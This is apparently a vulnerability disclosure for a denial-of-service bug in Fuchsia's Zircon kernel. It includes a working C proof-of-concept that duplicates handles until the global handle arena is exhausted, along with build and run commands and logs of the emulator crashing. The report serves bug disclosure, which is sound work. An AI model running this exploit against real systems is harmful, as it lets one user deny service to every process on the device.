 # Dos on Fuchsia

Reproducing may take you only 1 min.

## Set-up


Replace "/examples/fortune/fortune.c" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 300\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

	#include <stdio.h>
	#include  <zircon/syscalls.h>
	#define  max_num  300*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open 3 terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --ccache --with //example/fortune
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 1
```
$ fortune
```


## Result
Warnning in Terminal 3, then the FEMU crash.

Terminal 3
```
[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
```
You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```

## Details
Zircon Handles allows user space programs to reference kernel objects.

Sharable Resource: Zircon maintains a global struct call [HandleTableArena gHandleTableArena](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=76) for allocating all Handles.

Limit: The arena has a limit for all live handles, specified by [kMaxHandleCount](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=18), whose value is 256 * 1024. gHandleTableArena contains a member of [fbl::GPArena<Handle::PreserveSize, sizeof(Handle)> arena_](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/include/object/handle.h;l=154), whose [Init](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=42) allocates [kMaxHandleCount * handle_size](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=78) memory. If the number of live handles goes beyond the limit, Alloc will return [nullptr](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=121).

The attacker can consume handles to exhaust all handles in gHandleTableArena. 1) Handles are frequently-used in Zircon. Any events, processes, or threads are consuming new handles. 2) Currently we did not find any per-user limits on handles. 3) If handles are exhausted, the users cannot send events or creates any processes or threads.

Count: GPArena maintains a count_, which increments in [Alloc](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=126).
